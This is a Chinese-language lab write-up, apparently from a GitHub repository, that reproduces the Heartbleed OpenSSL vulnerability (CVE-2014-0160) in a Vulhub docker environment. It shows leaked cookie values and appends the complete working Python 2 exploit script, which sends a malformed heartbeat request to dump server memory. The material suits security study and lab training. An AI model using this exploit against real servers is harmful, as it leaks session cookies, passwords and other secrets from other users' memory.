



# 一、概述
* 心脏出血是OpenSSL库中的一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。
* 简单点说就是可以攻击者可以通过这个漏洞拿到用户的cookie或者passwd等一些敏感信息

# 二、影响版本
* Openssl 1.x

# 三、靶场环境
* 这里我使用的线下靶场`Vulhub`
```
root@wq:/home/wq/vulhub/openssl/heartbleed# ls
1.png  2.png  docker-compose.yml  README.md  README.zh-cn.md  ssltest.py  www
root@wq:/home/wq/vulhub/openssl/heartbleed# pwd
/home/wq/vulhub/openssl/heartbleed
root@wq:/home/wq/vulhub/openssl/heartbleed# docker-compose up -
root@wq:/home/wq/vulhub/openssl/heartbleed# docker ps
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                                                      NAMES
0d8f3919ecdc   vulhub/nginx:heartbleed   "/usr/local/nginx/sb…"   23 minutes ago   Up 23 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   heartbleed_nginx_1
root@wq:/home/wq/vulhub/openssl/heartbleed# 

```
* 靶场环境测试：开始访问：`https://192.168.10.134`，发现访问时正常的，说明靶场环境搭建成功
  


# 四、漏洞复现
* 当靶场创建起来的时候我有个不好的习惯，就是立马就用工具先过一遍，大家不要学我，还是需要从信息收集开始一点点做。
  
* 既然发现了这个高危了漏洞，就尝试去利用，这里我使用了官方提供的脚本，运行命令：`python exp.py 192.168.10.134 -p 443`
  
* 脚本运行后，发现了一些敏感的词汇，例如这里是：`cookies`
  
* 这时候，我在到搭建靶场时的环境去看我本身的`cookies`，发现：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`   
  
* 对比以下2次`cookie值`
    * 第一次：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
    * 第二次：`Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fverity%2Findex%2Ecfm`
        * 解码后：
        `CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
* 这时候发现脚本执行后就能够获取`cookies`的正确值


# 五、总结
* 在遇到一些扫描报告出现ssl漏洞可以利用的时候，不能轻视，不是加了ssl就是很保险的，在信息收集与漏洞扫描的时候，这些漏洞往往会造成很怕的影响，但是这里的SSL漏洞还是比较低级的，主要是服务端使用的Openssl版本是比较低的

# 六、附件
exp.py
```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.


"""
执行方式：
python exp.py 192.168.10.134 -p 443
注意版本：是python2
"""
import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]',
                       description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')


hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')


def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b: b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.') for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print


def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)


if __name__ == '__main__':
    main()


```